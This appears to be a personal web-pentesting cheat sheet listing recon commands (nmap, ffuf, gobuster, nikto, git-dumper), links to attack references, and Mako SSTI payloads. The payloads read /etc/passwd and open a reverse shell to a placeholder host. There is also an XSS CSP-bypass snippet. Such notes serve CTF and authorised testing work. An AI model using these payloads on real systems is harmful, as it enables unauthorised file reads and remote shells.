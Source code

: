 # Web stuff

## Enum

## Resources
- [:alien: Revshells](https://www.revshells.com/)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/web-vulnerabilities-methodology)

### nmap
```shell
nmap -sC -A -T4 <ip>
```

### ffuf
```shell
ffuf -u http://<url>/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```shell
ffuf -u http://<url> -w /usr/share/dnsrecon/subdomains-top1mil.txt -H "Host: FUZZ.<domain>.com" -fc 301
```

### gobuster
```shell
gobuster dir -u http://<url> -w /usr/share/wordlists/dirb/common.txt
```

### Nikto
```shell
nikto -host <ip>
```

### dirb
```shell
dirb <url> /usr/share/wordlists/dirb/common.txt
```

### Git Dumper
```
pip install git-dumper
git-dumper https://some-url/.git ./meow
ls ./meow
```

## SSTI
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

## XSS
- [Hacktricks XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [CSP evasion with JPG polyglot](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
  - [XSS jpg polyglot](https://infosecwriteups.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a)
  - [imgj_polygloter](https://github.com/s-3ntinel/imgjs_polygloter)
  - `<script charset="ISO-8859-1" type="text/javascript" src="/some/route"></script>`
- [CSP evasion with dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

## Misc
- [prototype pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

## Foothold
  - SSTI
  - SQL injections
  - SSRF
  - XSS



